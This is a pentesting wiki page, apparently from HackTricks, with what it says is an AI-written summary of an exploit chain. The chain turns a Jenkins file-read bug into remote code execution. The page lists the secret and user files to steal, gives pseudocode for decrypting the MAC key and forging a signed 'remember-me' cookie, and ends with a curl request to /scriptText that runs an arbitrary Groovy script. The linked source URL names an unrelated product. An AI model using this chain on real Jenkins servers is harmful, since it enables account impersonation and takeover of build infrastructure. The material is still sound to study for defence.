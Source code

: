 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" must be enabled (default setting).
- **Access Levels:** Attacker needs Overall/Read permissions.
- **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  - **Username**
  - **User seed**
  - **Timestamp**
  - **Password hash**

**Secret Key Extraction**

- Extract cryptographic keys used for signing the cookie:
  - **Secret Key:** `$JENKINS_HOME/secret.key`
  - **Master Key:** `$JENKINS_HOME/secrets/master.key`
  - **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

  ```javascript
  tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Adds one hour to current time
  ```

- **Concatenate Data for Token:**

  ```javascript
  token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
  ```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

  ```javascript
  key = toAes128Key(masterKey)  // Convert master key to AES128 key format
  decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
  if not decrypted.hasSuffix("::::MAGIC::::")
      return ERROR;
  macKey = decrypted.withoutSuffix("::::MAGIC::::")
  ```

**Signature Computation**

- **Compute HMAC SHA256:**

  ```javascript
  mac = HmacSHA256(token, macKey) // Compute HMAC using the token and MAC key
  tokenSignature = bytesToHexString(mac) // Convert the MAC to a hexadecimal string
  ```

**Cookie Encoding**

- **Generate Final Cookie:**

  ```javascript
  cookie = base64.encode(
    username + ":" + tokenExpiryTime + ":" + tokenSignature
  ) // Base64 encode the cookie data
  ```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
  - Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  - Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

  ```bash
  curl -X POST "$JENKINS_URL/scriptText" \
  --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
  --header "Jenkins-Crumb: $CRUMB" \
  --header "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "script=$SCRIPT"
  ```

  - Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{{#include ../../banners/hacktricks-training.md}}



